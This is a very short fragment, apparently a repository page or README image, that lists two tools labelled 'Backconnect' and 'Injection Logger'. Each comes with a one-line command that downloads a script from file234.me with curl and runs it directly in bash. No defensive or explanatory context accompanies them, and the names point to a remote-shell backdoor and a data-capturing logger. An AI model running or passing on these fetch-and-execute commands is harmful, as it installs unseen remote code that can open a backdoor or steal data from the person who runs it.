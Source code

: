 Backconnect
======================
bash -c "$(curl -fsSL https://file234.me/self)"

Injection Logger
======================
bash -c "$(curl -fsSL https://file234.me/z)"
